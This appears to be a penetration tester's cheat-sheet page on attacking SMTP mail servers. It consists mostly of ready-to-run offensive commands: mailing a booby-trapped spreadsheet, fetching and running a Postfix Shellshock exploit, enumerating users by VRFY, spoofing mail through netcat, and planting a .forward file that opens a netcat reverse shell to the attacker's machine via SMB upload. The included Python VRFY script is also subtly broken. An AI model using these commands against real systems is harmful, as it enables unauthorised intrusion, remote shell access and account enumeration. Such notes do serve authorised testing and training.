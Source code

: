 ```yaml
---
category: Uncategorized
tags: []
---
```

#### send email with sendemail
```bash - kali
sendemail -f 'jonas@localhost' \
   -t 'mailadmin@localhost' \
   -s $TARGET:25 \
   -u 'Your spreadsheet' \
   -m 'Here is your requested spreadsheet' \
   -a bomb.ods
```

#### Postfix SMTP Linux Shellshock RCE - USERNAME NEEDED
```bash - kali
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

![[rlwrap]]

```bash - kali
python postfix-shellshock-nc.py $TARGET $USER $KALI 443
```

#### User enumeration tool
```bash - kali
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $TARGET | grep exists | awk '{print $2}' > users
```

#### nmap
```bash - kali
nmap --script smtp-commands.nse -pT:25 $TARGET
```

#### Mail forward RCE
Found a .forward file in user's directory by SMB.

```bash - kali
echo "|nc $KALI 443 -e /bin/bash" > .forward
```

![[rlwrap]]

```bash - kali
smbclient \\\\$TARGET\\$SHARE -U "$USER%$PASWORD"
```

```bash - kali
put .forward
```

```bash - kali
exit
```

#### Send mail with netcat
```bash - kali
nc $TARGET 25
```

```bash - kali
HELO hacker
```

```bash - kali
mail from:HACKER@localhost
```
OR
```bash - kali
mail from:HACKER@example.org
```

```bash - kali
rcpt to:$USER@$TARGET
```

```bash - kali
DATA
```

Insert email body

```bash - kali
.
```

```bash - kali
QUIT
```


#### User verification script

```bash - kali
VRFY root
```

```bash - kali
VRFY idontexist
```

![[Pasted image 20220406195439.png]]

```bash - kali
#!/usr/bin/python3

import socket
import sys

if len(sys.argv) != 2:

	print("Usage: vrfy.py <username>")
	sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect = s.connect(("$TARGET",25))

# Receive the banner
banner = s.recv(1024)
print(banner)

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)
print(result)

# Close the socket
s.close
```